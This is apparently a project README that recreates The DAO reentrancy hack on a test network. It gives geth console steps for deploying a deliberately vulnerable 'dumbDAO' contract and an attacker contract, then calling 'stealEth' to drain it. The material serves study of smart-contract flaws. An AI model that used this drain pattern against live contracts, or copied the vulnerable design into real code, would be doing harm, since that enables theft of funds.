# mock-dao-hack
I wanted to recreate a recurisive send exploit similar to the one used by an attacker to drain "The DAO". I wrote an extremely simplified DAO contract (`dumbDAO.sol`) which is vulnerable to this hack. Included is an attacker contract (`attacker.sol`) which, if executed correctly will drain the dumbDAO contract of its ether.

#Running the exploit
Spin up a new geth node and console on the testnet or a privatenet (would not recommend trying this on the main Ethereum blockchain for obvious reasons). I've included a shell script called `generatejs.sh` which you can use to automatically compile the solidity contract code and create a deployment javascript file for you to load into your console.

    ./generatejs.sh dumbDAO.sol

If this runs correctly it should output a `loadScript` function call with the directory to the deployment js file to run as a parameter:

    loadScript('/Path/to/your/ws/mock-dao-hack/contracts/deploy_dumbDAO.js');
 
You should be able to copy and paste this straight into your geth console to deploy the contract. Once it is mined you'll see a log message confirming that the contract mined correctly. The contract javascript var is its name (`dumbDAO`). Deploy both contracts (doesn't really matter what order).

Once they are both deployed, lets set a few things up before executing the exploit...
First, buy some DAO tokens as an innocent investor (adjust `eth.accounts[0]` as necessary).

    //buy 100 ether worth of DAO tokens
    dumbDAO.buyTokens({from:eth.accounts[0],value:web3.toWei(100),gas:3000000});
    
    //After that transaction has been mined, check to make sure the tokens were appropriately assigned
    web3.fromWei(dumbDAO.balances(eth.accounts[0]));
    //and check on the balance of the contract itself
    web3.fromWei(eth.getBalance(dumbDAO.address));

Next lets prepare the attacker contract:

    attacker.setDAOAddress(dumbDAO.address,{from:eth.accounts[0],gas:3000000});
    attacker.fundMe({from:eth.accounts[0],value:web3.toWei(5),gas:3000000});
    attacker.buyDAOTokens(web3.toWei(5),{from:eth.accounts[0],gas:4000000});
    
    //check Token balance for attacker
    web3.fromWei(dumbDAO.balances(attacker.address));
    
The attacker contract should now be a token holder with 5 ether worth of DAO tokens. To execute the exploit...

    attacker.stealEth(web3.toWei(5),{from:eth.coinbase,gas:4000000})

Check the balances of both contracts as well as the balances of the innocent investor...the DAO now has less ether than it thinks it has.    
